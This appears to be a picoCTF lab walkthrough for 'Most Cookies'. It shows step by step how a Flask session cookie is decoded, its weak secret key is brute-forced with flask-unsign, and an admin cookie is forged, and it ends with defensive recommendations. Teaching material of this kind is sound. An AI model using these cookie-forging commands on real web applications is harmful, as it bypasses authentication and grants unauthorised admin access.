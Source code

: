 # 🍪 PicoCTF Lab Walkthrough – Most Cookies

## 📌 Challenge Info

* **Category**: Web Exploitation
* **Difficulty**: Medium

---

## 📝 Challenge Description

Forge a Flask session cookie to gain admin privileges and retrieve the flag.

---

## 🔍 Initial Recon

* **Files provided**: None
* **Services/Ports**: Web app using Flask session cookies
* **Hints given**: Flask session manipulation and secret key brute-forcing

---

## 🛠️ Tools & Commands Used

| Tool / Command      | Purpose                                              |
| ------------------- | ---------------------------------------------------- |
| `flask-unsign`      | Decode, brute-force, and forge Flask session cookies |
| Browser DevTools    | Modify and replace cookies                           |
| `keys.txt` wordlist | Used for secret key brute-force                      |

---

## 🧠 Step-by-Step Solution

1. **Cookie Extraction**

   * Captured session cookie:

   ```
   eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aIiRgg.9XpQdaf_wapHmc-JaEH_T1tG6Co
   ```

2. **Cookie Decoding**

   * Ran:

   ```bash
   flask-unsign --decode --cookie "<cookie>"
   ```

   * Revealed:

   ```json
   {"very_auth": "blank"}
   ```

3. **Secret Key Brute-Force**

   * Ran:

   ```bash
   flask-unsign --unsign --cookie "<cookie>" --wordlist keys.txt
   ```

   * Found secret key: **`peanut butter`**

4. **Cookie Forging**

   * Forged new cookie with:

   ```bash
   flask-unsign --sign --cookie '{"very_auth":"admin"}' --secret "peanut butter"
   ```

   * Resulting cookie:

   ```
   eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIiU1w.sBfCkJfBCOImLsUnHsgNQNpayJw
   ```

5. **Flag Retrieval**

   * Replaced session cookie in browser → accessed page as **admin** → flag revealed.

---

## 🧾 Flag

picoCTF{\[flag]\}

---

## 📚 Learning Outcomes

* Flask session cookies can be manipulated if secret keys are weak.
* Brute-forcing the secret key allows privilege escalation.
* Secure session management is critical to prevent cookie forgery.

---

## 🔒 Recommendations

1. **Input Validation**: Sanitize and validate all user inputs to prevent SQL injection, command injection, and path traversal.
2. **Secure Configuration**: Avoid exposing sensitive files and restrict directory access.
3. **Server-Side Authentication**: Never rely on client-side checks or obfuscation.
4. **Secure Cookie Handling**: Use long, unpredictable secret keys and secure cookie attributes.
5. **Database Security**: Enforce least privilege and strong credentials.

---
